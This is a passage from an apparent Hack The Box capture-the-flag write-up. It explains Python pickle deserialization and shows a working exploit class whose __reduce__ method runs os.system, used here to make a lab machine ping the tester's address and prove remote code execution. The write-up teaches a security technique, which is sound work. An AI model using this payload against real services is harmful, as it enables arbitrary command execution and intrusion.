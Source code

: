     KGRwMQpTJ1N1YmplY3QnCnAyClMndGVzdCcKcDMKcy4=



And it works:



    HTTP/1.1 200 OK
    Server: gunicorn/19.7.1
    Date: Fri, 12 Oct 2018 09:46:36 GMT
    Connection: close
    Content-Type: text.md; charset=utf-8
    Content-Length: 19

    POST RECEIVED: test



#### Exploitation

Pickle is python's serialization library, and as is true with most
serialization / deserialization methods, it's extremely risky to use
with user controlled input. There's another example of pickle
exploitation in [my Canape writeup](/htb-canape.md).

Serialization allows a programmer to take an object within a program and
save it as a text string, so that that string can be loaded later and/or
on a different host and the full object will be available. When python
runs the deserialization functions (`load` or `loads`) and gets an
object, it will always attempt to run that object's `__reduce__` method,
which is used to clean up things that don't serialize well, such as a
file handle.

We can take advantage of that to get RCE. First, build the malicious
string to submit:



    >>> import os
    >>> class Exploit(object):
    ...     def __init__(self, cmd):
    ...         self.cmd = cmd
    ...     def __reduce__(self):
    ...         return (os.system, (self.cmd,))

    >>> pickle.dumps(Exploit('ping -c 1 10.10.14.3'))
    "cposix\nsystem\np1\n(S'ping -c 1 10.10.14.3'\np2\ntRp3\n."
    >>> base64.urlsafe_b64encode(pickle.dumps(Exploit('ping -c 1 10.10.14.3')))
    'Y3Bvc2l4CnN5c3RlbQpwMQooUydwaW5nIC1jIDEgMTAuMTAuMTQuMycKcDIKdFJwMwou'



Now, post that string and see what happens:

![](/img/devoops-pickle-ping.gif)
